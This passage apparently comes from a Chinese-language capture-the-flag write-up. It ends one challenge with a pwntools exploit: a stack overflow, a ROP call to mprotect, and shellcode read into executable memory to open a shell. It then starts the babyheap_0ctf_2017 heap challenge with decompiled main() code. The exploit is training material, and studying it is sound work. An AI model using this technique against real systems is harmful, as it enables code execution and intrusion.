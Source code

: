 ```python
mprotext_adr=0x0806DDA0
make_adr=0x80e9000 
main_adr=0x08048894
payload=b'a'*(0xc+0x4)+p32(mprotext_adr)+p32(main_adr)+p32(make_adr)+p32(0x2000)+p32(0x7)
io.sendline(payload)
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')
read_adr=0x0806D290
payload = b"A"*(0xc+0x4) + p32(read_adr) + p32(make_adr) + p32(0) + p32(make_adr) + p32(len(shellcode))

io.sendline(payload)

io.sendline(shellcode)

io.interactive()
```

# babyheap_0ctf_2017
>知识点：heap
![alt text](image-2.png)
保护全开，看题目提示是堆漏洞,仔细看看题目

主函数
```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __int64 v4; // [rsp+8h] [rbp-8h]

  v4 = sub_B70(a1, a2, a3);
  while ( 1 )
  {
    sub_CF4();
    switch ( sub_138C() )
    {
      case 1LL:
        sub_D48(v4);
        break;
      case 2LL:
        sub_E7F(v4);
        break;
      case 3LL:
        sub_F50(v4);
        break;
      case 4LL:
        sub_1051(v4);
        break;
      case 5LL:
        return 0LL;
      default:
        continue;
    }
  }
}
```